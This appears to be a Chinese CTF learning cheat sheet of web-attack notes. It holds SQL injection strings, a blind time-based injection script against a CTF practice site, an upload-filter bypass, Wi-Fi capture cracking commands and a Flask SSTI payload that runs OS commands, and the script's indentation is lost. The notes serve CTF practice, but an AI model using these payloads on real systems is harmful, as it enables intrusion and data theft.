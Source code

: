 # 学习基本思路

    * 第一阶段，拿到题目要能看懂
    * 第二阶段，分析出题目逻辑

    * 做了一个月题啥也不会也是正常的...

    * 学习曲线坑爹，怎么开始不重要，但是一定要坚持下来

    * 保持练习强度，量变引起质变，瓶颈期，不存在的
    * 新手过招，靠的是技巧,高手过招，靠的是技术

# WEB
.index.php.swp 文件可能隐藏源代码
16进制编码可以绕过注入

## 简单绕过，万能密码

    uname=admin

    &passwd=admin'||'1'='1

    &submit=Submit
## 回显注入
?name=admin' and 1=2 union select 1,2,group_concat(flag) from flag--+
## 延时注入
import requests

import string

s=requests.session()

url="http://ctf5.shiyanbar.com/web/wonderkun/index.php"

flag=''

guess=string.lowercase+string.uppercase+string.digits

for i in range(33):

for st in guess:

headers={"x-forwarded-for":"1'+"+"(select case when(substr((select flag from flag) from %d for 1)='%s') then sleep(5) else 1 end) and '1'='1" %(i,st)}

try:

res=s.get(url,headers=headers,timeout=4)

except requests.exceptions.ReadTimeout:

flag+=st

print "flag:",flag

break

print "result:"+flag

## 图片上传
upload success, but not php!
multipart/form-data变换一下大小写，再把第二个Content-Type改成图片类
## kindeditor4.1.7

泄漏路径问题，漏洞根源位于/php/file_manager_json.php。

#杂碎

培根密码,当铺密码解密，JS/VBS/ASP加密解密  
cap无线密码破解-aircrack-win  
cap包无线解密，airdecap-ng -e SSID -p PASSWORD
MP3Stego Decode.exe -X -P PASSWORD
rz sz命令

## 工具
cheat engine
## 隐写
outguess -r 图片名 文件名

## flask ssti

{% for c in [].__class__.__base__.__subclasses__() %} {% if c.__name__ == 'catch_warnings' %} {% for b in c.__init__.func_globals.values() %} {% if b.__class__ == {}.__class__ %} {% if 'eval' in b.keys() %} {{ b['eval']('__import__("os").popen("ls").read()') }} {% endif %} {% endif %} {% endfor %} {% endif %} {% endfor %} 
